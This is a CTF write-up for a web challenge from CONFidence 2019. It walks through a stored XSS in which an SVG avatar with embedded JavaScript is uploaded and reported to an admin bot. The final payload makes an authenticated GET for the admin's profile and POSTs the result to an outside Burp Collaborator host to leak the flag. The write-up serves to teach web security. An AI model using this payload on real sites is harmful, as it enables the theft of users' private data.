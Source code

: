
Teaser CONFidence CTF 2019: Web 50
==================================

Challenge description:

	idk what this site does, but you can put some secret, shoe size and report it to the admin...

We are given a URL. When we visit it we find the following screen:

![](pics/1.png?raw=true)

It seems to be a user and password. Let's try some random values, like `fabada`/`fabada123` and submit the form. 

Apparently we're in:

![](pics/2.png?raw=true)

Let's check the Profile section:

![](pics/3.png?raw=true)

Here we can set some values that will be stored at the server with a POST to `/profile/fabada`. We try clearing cookies and logging in again, and we find that the values are kept. Therefore, we effectively created an account at the platform, and our profile can be found at `/profile/<USERNAME>`. Interestingly enough we can upload some file as the avatar, we'll keep an eye out for that...

Let's now check the Report section:

![](pics/4.png?raw=true)

We found that in this screen we can submit a URL from this domain. Actually not every single one, but profiles are allowed. We try sending our own profile and we get the following response:

![](pics/5.png?raw=true)

Mmh do we now what that means? Starts sounding like a client-side attack... We can probably make the admin visit our own profile. Talking about `admin`, let's try and see if he has his own profile:

![](pics/6.png?raw=true)

Yes he does! But we don't get the option to edit any field as with our own profile (obviously). We try with another account to check our own profile, and we confirm that that's how profiles for other users are displayed.

Let's now look for the client side attack. Back to our own profile, we try several XSS payloads in the different fields. In the end, found an attack vector by uploading an SVG with embedded Javascript (size needs to be 100x100, as pointed out by the returned error if we try other sizes, so we directly grabbed one from Google Images):

```
<?xml version="1.0" encoding="UTF-8"?> <svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" id="Layer_1" x="0px" y="0px" width="100px" height="100px" viewBox="-12.5 -12.5 100 100" xml:space="preserve"> 
  ...
  <g>
    <polygon fill="#00B0D9" points="41.5,40 38.7,39.2 38.7,47.1 41.5,47.1 "></polygon>
    <script type="text/javascript">
      alert('XSS!');
    </script>
  </g>
  ...
</svg>

```

After uploading the image, the profile is shown and nothing happens:

![](pics/7.png?raw=true)

Visiting the image's URL, however...

![](pics/8.png?raw=true)

Nice! Hopefully we can submit this for the admin to check out? Yes we can. The full URL we send is something of the sort:

`http://web50.zajebistyc.tf/avatar/82b956e443066b3179e9493507c12344a87585d36d3aa92ae02710b1f1d1da5f/fabada_avatar.svg`

![](pics/5.png?raw=true)

How can we leverage this to compromise the admin? We tried two failed approaches:

1. Send ourselves some `document.cookies` from the admin? Nope, the session cookie is HttpOnly.
2. Within the XSS payload, trigger an authenticated POST request to `/profile/admin` modifying the `secret` parameter. We believed that was the password, and therefore we could take over the admin account. We then found out that was not the case... Maybe `secret` is the flag itself for the `admin` user!

We then realized that maybe we could trigger a GET request to `/profile/admin` from the admin's browser obtaining the profile's "full version" including the secret. We could then redirect the response to this request to our own server (in this case, we used Burp Collaborator).

The payload:

```
<?xml version="1.0" encoding="UTF-8"?> <svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" id="Layer_1" x="0px" y="0px" width="100px" height="100px" viewBox="-12.5 -12.5 100 100" xml:space="preserve"> 
  ...
  <g>
    <polygon fill="#00B0D9" points="41.5,40 38.7,39.2 38.7,47.1 41.5,47.1 "></polygon>
    <script type="text/javascript">
      var xhr = new XMLHttpRequest();
      xhr.onreadystatechange = function() {
        if (xhr.readyState === 4) {
          var xhr2 = new XMLHttpRequest();
          xhr2.open("POST", "http://XXXX.burpcollaborator.net/");
          xhr2.send(xhr.responseText);
        }
      }   
      xhr.open("GET", "http://web50.zajebistyc.tf/profile/admin");
      xhr.withCredentials = true;
      xhr.send();
    </script>
  </g>
  ...
</svg>

```

After reporting the URL of the new uploaded malicious SVG, a request was received by the Collaborator which included the flag!

![](pics/9.png?raw=true)


